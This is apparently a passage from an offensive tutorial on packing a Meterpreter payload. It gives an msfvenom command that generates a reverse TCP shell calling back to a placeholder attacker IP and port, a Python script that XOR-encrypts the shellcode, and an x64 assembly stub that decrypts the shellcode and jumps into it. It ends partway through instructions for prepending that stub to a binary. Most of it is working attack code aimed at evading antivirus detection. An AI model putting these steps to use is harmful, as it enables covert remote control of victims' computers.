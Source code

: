 ### **3. Implementing the Decryption Routine**

#### **a. Generating Encrypted Payload with msfvenom**

Here’s an example using XOR encryption:

1. **Generate the Payload**:
   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o shellcode.bin
   ```

2. **Encrypt the Payload**:
   Use a simple script to XOR the payload:
   ```python
   key = 0xAA  # Example XOR key
   with open("shellcode.bin", "rb") as f:
       shellcode = bytearray(f.read())

   encrypted_shellcode = bytearray([b ^ key for b in shellcode])

   with open("encrypted_shellcode.bin", "wb") as f:
       f.write(encrypted_shellcode)
   ```

#### **b. Writing a Decryption Routine**

Write a small piece of assembly code that decrypts the payload. For example, an XOR decryption routine:

```assembly
section .text
global _start

_start:
    xor rsi, rsi        ; Clear RSI (index)
    xor rdi, rdi        ; Clear RDI (counter)
    mov rcx, <payload_size> ; Set RCX to the length of the payload
    mov rbx, <encrypted_payload_address> ; Load the address of the encrypted payload
    mov al, 0xAA        ; Set the XOR key (same as used for encryption)

decrypt_loop:
    xor byte [rbx + rdi], al ; XOR decrypt each byte
    inc rdi             ; Move to the next byte
    loop decrypt_loop   ; Loop until the entire payload is decrypted

    jmp rbx             ; Jump to the start of the decrypted payload
```

#### **c. Integrating the Decryption Routine**

You have two options:

1. **Prepend to the Binary**: You can prepend the decryption routine to the existing binary using tools like `cat` (for Linux) or other binary manipulation tools.
   